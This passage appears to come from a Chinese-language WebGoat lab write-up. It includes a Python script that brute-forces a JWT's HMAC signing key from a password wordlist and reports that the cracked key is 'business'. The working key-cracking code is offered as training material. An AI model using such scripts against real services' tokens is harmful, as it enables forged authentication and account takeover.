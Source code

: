 3.若因密钥错误（jwt.exceptions.InvalidSignatureError）导致校验失败，则 key_ 为无效密钥；

4.若为其他原因（如，JWT 字符串格式错误）导致校验失败，根本无法验证当前 key_ 是否有效。
```

以下为python代码，爆破密钥

```python
import jwt
import termcolor
if __name__ == "__main__":
    jwt_str = R'eyJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJXZWJHb2F0IFRva2VuIEJ1aWxkZXIiLCJhdWQiOiJ3ZWJnb2F0Lm9yZyIsImlhdCI6MTU4MDYxNTg3NywiZXhwIjoxNTgwNjE1OTM3LCJzdWIiOiJ0b21Ad2ViZ29hdC5vcmciLCJ1c2VybmFtZSI6IlRvbSIsIkVtYWlsIjoidG9tQHdlYmdvYXQub3JnIiwiUm9sZSI6WyJNYW5hZ2VyIiwiUHJvamVjdCBBZG1pbmlzdHJhdG9yIl19.eohzwETD1VzctCXQ3A8ESPzAoZ7u5DDCw04M79wgefc'
    with open('D:\pycharm\pass.txt') as f:
        for line in f:
            key_ = line.strip()
            try:
                jwt.decode(jwt_str, verify=True, key=key_)
                print('\r', '\bbingo! found key -->', termcolor.colored(key_, 'green'), '<--')
                break
            except (jwt.exceptions.ExpiredSignatureError, jwt.exceptions.InvalidAudienceError, jwt.exceptions.InvalidIssuedAtError, jwt.exceptions.InvalidIssuedAtError, jwt.exceptions.ImmatureSignatureError):
                print('\r', '\bbingo! found key -->', termcolor.colored(key_, 'green'), '<--')
                break
            except jwt.exceptions.InvalidSignatureError:
                print('\r', ' ' * 64, '\r\btry', key_, end='', flush=True)
                continue
        else:
            print('\r', '\bsorry! no key be found.')
```

通过爆破可以找到签名密钥为business
